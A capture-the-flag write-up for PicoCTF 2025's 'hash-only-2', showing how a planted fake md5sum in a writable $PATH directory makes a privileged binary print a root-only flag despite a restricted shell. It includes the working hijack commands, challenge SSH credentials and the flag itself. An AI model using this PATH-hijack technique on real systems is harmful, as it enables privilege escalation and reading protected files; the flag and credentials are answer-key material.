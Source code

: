 # PicoCTF 2025

## hash-only-2

> Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!  
> Author: Junias Bonou  
> [`hash-only-2`](hash-only-2)

**Tags:** binary_exploitation

---

## 🧾 Overview

Much like `hash-only-1`, this challenge provides a binary named `flaghasher` that can read the contents of `/root/flag.txt`, but only prints its MD5 hash. This time, however, the environment is more restricted — we’re placed inside a `rbash` (restricted bash) shell that blocks common actions like redirection (`>`), slashes in command arguments, and text editors. The challenge is to work around those restrictions and recover the actual flag.

---

## ✅ Solution

I connected to the server using the provided credentials:

```bash
ssh ctf-player@rescued-float.picoctf.net -p 60710
# password: 6dd28e9b
```

Once inside, I ran the binary:

```bash
flaghasher
```

It printed:

```
Computing the MD5 hash of /root/flag.txt....

4268c8737000b13184189a06b5054d72  /root/flag.txt
```

This confirmed that the binary was calling `md5sum` on the flag file. The trick — just like in `hash-only-1` — would be to replace `md5sum` with a custom script that reveals the file contents before passing it along to the real `md5sum`.

To do this, I first checked which directories in my `$PATH` were writable:

```bash
for dir in $(echo $PATH | tr ':' '\n'); do [ -w "$dir" ] && echo "$dir is writable"; done
```

The output showed:

```
/usr/local/bin is writable
```

Perfect. Since `/usr/local/bin` comes early in the path, I could drop a fake `md5sum` script there to override the real one.

Because redirection (`>`) was disabled in `rbash`, I used `tee` to write the script manually:

```bash
tee /usr/local/bin/md5sum
```

Once `tee` started waiting for input, I pasted the following:

```bash
#!/bin/bash
cat "$@"
/bin/md5sum "$@"
```

Then I pressed `Ctrl+D` to save and exit.

Next, I made the script executable:

```bash
chmod +x /usr/local/bin/md5sum
```

Then I simply ran the binary again:

```bash
flaghasher
```

This time, it printed:

```
picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_1a74f5fd}
4268c8737000b13184189a06b5054d72  /root/flag.txt
```

So even with a restricted shell, I was able to hijack the system’s behavior and retrieve the flag by using a writable directory in `$PATH` and the `tee` command.

---

## Flag

```
picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_1a74f5fd}
```
